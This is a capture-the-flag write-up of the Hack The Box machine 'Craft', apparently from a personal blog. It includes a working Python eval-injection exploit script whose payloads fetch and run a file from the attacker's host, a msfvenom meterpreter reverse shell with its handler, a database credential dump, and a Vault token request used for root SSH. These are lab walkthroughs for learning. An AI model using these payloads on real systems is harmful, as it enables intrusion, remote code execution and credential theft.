+++
title = "Craft"
date = 2020-01-04
[taxonomies]
tags = ["hackthebox"]
+++

1. `nmap` scans show open ports on 22, 443, 6022. Lets start with port 443.

2. Port 443 generates a web page about craft beer.

    

    After poking around on the site and inspecting the elements of the page, there are two notable links to check out.

    https://api.craft.htb/api/

    https://gogs.craft.htb/

    Added both of those sites and including `craft.htb` to my `/etc/hosts` file.

    The API site is built using [Swagger](https://swagger.io) which is a software platform to build APIs. I've scoped out what this API can do and see what data is available to us. Maybe we can use this to test our exploits or dig into hidden endpoints.

    The Gogs site is built using [Gogs](http://gogs.io) which is a git service that can be self-hosted. Looking at what can be found, there is a public repository that hosts the API site code. Before reviewing the code, I scoped out what other information we can find about this platform and who runs it. I found this open issue that was created by Dinesh with some juicy JWT authentication information.

    

    

3. I know that I've rooted another HTB machine using JWT tokens before so I grabbed the previous command with authentication bearer and see if I get a result.

    ```json
    {"items": [{"id": 12, "brewer": "10 Barrel Brewing Company", "name": "Pub Beer", "style": "American Pale Lager", "abv": "0.050"}, {"id": 13, "brewer": "18th Street Brewery", "name": "Devil's Cup", "style": "American Pale Ale (APA)", "abv": "0.066"}, {"id": 14, "brewer": "18th Street Brewery", "name": "Rise of the Phoenix", "style": "American IPA", "abv": "0.071"}, {"id": 15, "brewer": "18th Street Brewery", "name": "Sinister", "style": "American Double / Imperial IPA", "abv": "0.090"}, {"id": 16, "brewer": "18th Street Brewery", "name": "Sex and Candy", "style": "American IPA", "abv": "0.075"}, {"id": 17, "brewer": "18th Street Brewery", "name": "Black Exodus", "style": "Oatmeal Stout", "abv": "0.077"}, {"id": 18, "brewer": "18th Street Brewery", "name": "Lake Street Express", "style": "American Pale Ale (APA)", "abv": "0.045"}, {"id": 19, "brewer": "18th Street Brewery", "name": "Foreman", "style": "American Porter", "abv": "0.065"}, {"id": 20, "brewer": "18th Street Brewery", "name": "Jade", "style": "American Pale Ale (APA)", "abv": "0.055"}, {"id": 21, "brewer": "18th Street Brewery", "name": "Cone Crusher", "style": "American Double / Imperial IPA", "abv": "0.086"}], "page": 1, "pages": 234, "per_page": 10, "total": 2338}
    ```

    So it does show a result but it's strange. This request looks like if you sent a GET request to the API. Using the web API interface confirms my suspicions.

    What is also strange is that the API also asks for username and password when trying to test for authentication. I tried using the only username and password that I found which is `dinesh` and `4aUh0A8PbVJxgd`, it worked! I used `postman` to play around with the values and tokens.

    

    Poking around the web interface for about 5 minutes will later show the data requested can't be generated because the token is invalid. This is when I found out that I need to create a script to avoid generating a token manually every time I need to lurk around.

4. Circling back and review the repository again, I'm checking to see if there is anything we can use to authenticate with the API.  In the `tests` folder, there is a file named `test.py`.  Part of the code shows that you need to insert the username and password.  Seeing how Dinesh tried to delete this information from his commit, this must be the way in.  I've edited the code to just see if we can get a token:

    ```python
    import requests
    import json

    response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    token = json_response['token']

    print(token)
    ```

    And it works! A token has been generated.

    

5. You can probably skip this part but I wanted to check the token to make sure it's validated each time it's being generated. There is an endpoint named `auth/check` that will do the trick.

    ```python
    import requests
    import json

    response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    status = response.status_code
    token = json_response['token']

    print("\n" + str(token))
    print(str(status) + "\n")

    headerinfo = {'X-Craft-Api-Token': token, 'Content-Type': 'application/json'}
    response2 = requests.get('https://api.craft.htb/api/auth/check', headers=headerinfo, verify=False)
    json_response2 = json.loads(response2.text)

    print("\n" + str(json_response2))
    print(str(response2.status_code) + "\n")
    ```

6. So now we got the token generated, validated, and ability to grab brew information from the API, what to do next? This is where I got stuck the longest but I learned about fixing my enumeration processes.

    I fell into two rabbit holes:
    - Trying to exploit `phpmyadmin-dir-traversal` which isn't a smart move because we didn't find `phpmyadmin` in the first place! I didn't get stuck here long though.
    - Running `dirbuster` on `api.craft.htb` and see if there is a hidden directory we may have missed.

    I'm not particular strong in code review because I haven't studied the possible exploitation when using certain functions. This is good practice for me though. I found the exploit code in this file: https://gogs.craft.htb/Craft/craft-api/src/master/craft_api/api/brew/endpoints/brew.py

    Particularly this piece of code:

    ```python
        @auth.auth_required
        @api.expect(beer_entry)
        def post(self):
            """
            Creates a new brew entry.
            """

            # make sure the ABV value is sane.
            if eval('%s > 1' % request.json['abv']):
                return "ABV must be a decimal value less than 1.0", 400
            else:
                create_brew(request.json)
                return None, 201
    ```

    A quick Google search will show sites that talks about how `eval` can be exploited if misused. 

    [Eval really is dangerous](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)

    A quick note about `eval` is the function evaluates the parameter given. If you evaluate an untrusted or unsanitized input, you can execute commands on the victim's machine.

7. Armed with new knowledge, I fleshed out the rest of the code with remote code execution.

    ```python
    import requests
    import json

    response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    status = response.status_code
    token = json_response['token']

    print("\n" + str(token))
    print(str(status) + "\n")

    headerinfo = {'X-Craft-Api-Token': token, 'Content-Type': 'application/json'}
    response2 = requests.get('https://api.craft.htb/api/auth/check', headers=headerinfo, verify=False)
    json_response2 = json.loads(response2.text)

    print("\n" + str(json_response2))
    print(str(response2.status_code) + "\n")

    brew_dict = {}
    brew_dict['abv'] = "__import__(\"subprocess\").getoutput(\"wget http://10.10.14.13/rs.py\")"
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'

    json_data = json.dumps(brew_dict)

    response3 = requests.post('https://api.craft.htb/api/brew/', headers=headerinfo, data=json_data, verify=False)
    json_response3 = json.loads(response3.text)

    print("\n" + str(response3.status_code))
    print(json_response3)

    brew_dict2 = {}
    brew_dict2['abv'] = "__import__(\"subprocess\").getoutput(\"python rs.py\")"
    brew_dict2['name'] = 'bullshit'
    brew_dict2['brewer'] = 'bullshit'
    brew_dict2['style'] = 'bullshit'

    json_data2 = json.dumps(brew_dict2)

    response4 = requests.post('https://api.craft.htb/api/brew/', headers=headerinfo, data=json_data2, verify=False)
    json_response34= json.loads(response4.text)
    ```

    In addition, I need to generate the python reverse shell code.

    ```bash
    msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -o rs.py
    ```

8. Start python web server and meterpreter session to receive my reverse shell connection.

    ```bash
    python -m SimpleHTTPServer 80

    msfconsole

    use exploit/multi/handler
    set payload python/meterpreter/reverse_tcp
    set LHOST 10.10.14.13
    set LPORT 4444
    run
    ```

9. Run the script and I'm able to receive a shell on meterpreter session.

10. To my surprise, the `user.txt` flag is non-existent. I thought someone deleted the flag but nope, I am stuck in a containerized instance as `hostname` shows a string of random letters and numbers.

11. I got lost for a while trying to figure out how to break out of this instance. I noticed there is a directory at `/opt/app` that resembles the same code as the repository. Out of chance, I noticed there is a file called `models.py`. This file generates the database structure for brew and one other important table, "Users".

    ```python
    class User(db.Model):
        id = db.Column(db.Integer, primary_key=True)
        username = db.Column(db.String(45))
        password = db.Column(db.String(80))

        def __init__(self, username, password):
            self.username = username
            self.password = password
    ```

    I had the immediate idea that I should have enumerated the possible hidden databases for possible logins.

12. The other piece of information that came together while looking into database enumeration was this file called `dbtest.py`. It's a simple file that connects to the database and retrieves 1 result from brew table.

    ```python
    #!/usr/bin/env python

    import pymysql
    from craft_api import settings

    # test connection to mysql database

    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

    try: 
        with connection.cursor() as cursor:
       
            sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
            cursor.execute(sql)
            result = cursor.fetchone()
            print(result)

    finally:
        connection.close()
    ```

    Let's see if we can retrieve data from the "User" table by modifying the code:

    ```python
    #!/usr/bin/env python

    import pymysql
    from craft_api import settings

    # test connection to mysql database

    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

    try: 
        with connection.cursor() as cursor:
            sql = "SELECT `id`, `username`, `password` FROM `user`"
            cursor.execute(sql)
            result = cursor.fetchmany(size=10)
            print(result)

    finally:
        connection.close()
    ```

    Take note of the `cursor.fetchmany`. I got stuck on this as I forgot that it only retrieved one result at a time. Changing this piece of code will select all data from rows 1-10.

    

    And there it is. I got new username and passwords from the SQL database, lets see if we can log into other services with them.

13. SSH doesn't work. SSH on port 6022 doesn't work either. `su` doesn't work either. Logging into Gogs using Gilfoyle's credentials worked! There appears to be a private repository.

    

    The `.ssh` directory is our ticket in using SSH. Lets download the repository and unzip for the .ssh files.

14. Login using SSH using the same password as found above:

    ```bash
    ssh -i id_rsa gilfoyle@craft.htb
    ```

    

    `Do not ever copy and paste SSH keys, they do not work. The MD5sum doesn't match with the original.`{:.warning}

### Privilege Escalation

1. Ran `linenum` and `linuxprivchecker` script and I didn't find anything out of the ordinary. Nothing in crontab. I started to poke around the home directory and there is a `.vault-token` file.

    

    A quick Google search shows up as some sort of vault key for HashiCorp.  I see that you can run `vault` commands so I tried and see what options I had.

    

    Poking around at what it does, I'm not entirely sure how it works.

2. I started to dig around the repository again because the pattern so far with this machine is all clues can be found in the repository. I found this script:

    

    A quick Google search reveals that these commands create a SSH session using a one-time password token.

    [SSH Secrets Engine: OTP SSH Password](https://learn.hashicorp.com/vault/secrets-management/sm-ssh-otp)

3. Let's first run the commands that we found in the script to enable SSH and allow OTP for root.

    

4. Next, we need to create a `cURL` PUT request to get a token generated.

    ```bash
    curl --header "X-Vault-Token: f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9" --request PUT --data '{"ip": "127.0.0.1"}' https://vault.craft.htb:8200/v1/ssh/creds/root_otp
    ```

    

5. Copy the token and `ssh` using root.

    